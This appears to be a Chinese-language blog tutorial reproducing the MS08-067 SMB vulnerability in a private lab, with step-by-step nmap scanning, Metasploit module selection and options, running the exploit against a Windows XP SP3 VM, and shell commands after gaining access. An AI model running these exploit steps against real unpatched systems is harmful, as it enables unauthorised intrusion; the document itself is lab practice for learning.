 ```yaml
---
title: 【漏洞】windows漏洞MS08-067复现与攻击
date: 2024-11-20
slug: ms08-067review-atk
image: done.png
tag: 
    - CTF
    - 网络安全
    - windows
    - 漏洞
categories: 
    - 网络安全

---
```


## 准备工作

环境：

> 攻击机（192.168.15.128）：Kali GNU/Linux Rolling x86_64
>
> 靶机（192.168.15.129）：
> Windows XP Professional with Service Pack 3 (x86) 

本次攻击测试靶机镜像来自[MSDN, 我告诉你](https://msdn.itellyou.cn/)，特别鸣谢！

由于该漏洞已于2008年末被巨硬以发布补丁包的方式修复，所以有些较新的或者整合的镜像<mark>无法复现此漏洞</mark>，本人盆友亲测，故在此给出本人所用镜像，有需要可以到上面的网站下载：

````
zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso
SHA1: 69DBF131116760932DCF132ADE111D6B45778098
文件大小: 601.04MB
发布时间: 2008-05-01
````

## 开始

配置好XP系统，`win+R`输入`cmd`，在命令窗口执行查询ip命令：

````cmd
ipconfig
````

![ipconfig](ipconfig.png)

可知靶机ip为：`192.168.15.129`

在我们的kali里依法炮制，查询ip：

````bash
ifconfig
````

![ifconfig](ifconfig.png)

可知攻击机ip为：`192.168.15.128`

两台机器在同一网段，方便我们进行后续操作。

## 攻击

请出`nmap`，对靶机进行扫描：

````bash
nmap -sV -Pn 192.168.15.129  
````

解释下命令的参数：

`-sV` 表示启用版本检测。-sV 使得 nmap 在扫描时不仅会检查开放的端口，还会尝试确定运行在这些端口上的服务的版本信息。例如，如果某个端口上运行的是 HTTP 服务，nmap 会尝试识别是 Apache、Nginx 还是其他 Web 服务，并尝试获取它们的版本号。

`-Pn` 该选项告诉 nmap 不进行主机发现（Host Discovery）。通常，nmap 在扫描前会先进行主机发现，以确定目标主机是否在线（通过发送 ICMP 请求或 SYN 包等方式）。-Pn 选项告诉 nmap 跳过这一步，直接假设目标主机是在线的并进行扫描。

扫描得到：

![nmap](nmap.png)

可以看到靶机开放了三个端口，其中就有我们今天要利用的`445`端口。

直接启动`msf`进行漏洞利用：

````bash
msfconsole  
````

因为我们已经知道了这个漏洞叫`MS08-067`，所以直接搜索：

````bash
msf6> search ms08-067
````

![msf-search](msf.png)

可以看到它找到了一个结果，来使用它：

````bash
msf6> use exploit/windows/smb/ms08_067_netapi
````

或：

````bash
msf6> use 0
````

然后我们来选择靶机版本`target`，本人的msf在使用`search`后会自动列出所有`target`，但是盆友亲测不会，所以使用命令来列出所有`target`：

````bash
msf6> show target
````

这里一定要注意选择你自己的靶机版本，比如盆友使用的是简体中文版的winxp sp3，选用繁中版本xp或者是server的都会无法连接：

````
The connection was refused by the remote host (192.168.91.131:445).
````

默认`target`为第一个（0），使用`set TARGET 序号/名称`来设定`target`：

````bash
msf6> set TARGET 'Windows XP SP3 Chinese - Simplified(NX)'
````

效果图在最后面的图片。

不建议复制我的，因为不同环境它的序号和名字也会变，比如我的简中XP序号是35，朋友的是10。

![different](different.png)

如果设定了错误的`target`并且已经执行了的话，需要重启靶机，不然会无法连接到靶机的445端口。

配置好target后，继续使用`set`来配置剩下需要配置的参数，查看所需参数：

````bash
msf6> show options
````

![options](msf-show-options.png)

配置`RHOSTS`、`RPORT`:

````bash
msf6> set RHOSTS 192.168.15.129
msf6> set RPORT 445
````

这里遇到很神奇的事，可能是我俩版本不一样，我可以使用`RHOST`代替`RHOSTS`，但是朋友这样输就会报错，以及可能msf不会给你自动配置`RPORT`、`LHOST`，具体需要参考上面的`options`是否已有值。

一切准备好后，开始攻击！

输入`run`:

````bash
msf6> exploit(windows/smb/ms08_067_netapi) > run
````

![set](gatch.png)

成功拿到shell!

来测试一下：

````bash
cd ..
mkdir Ciallo
cd Ciallo
edit hacknya.txt
sysinfo
````

![test](done.png)

完美！

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1965377560&auto=0&height=66"></iframe>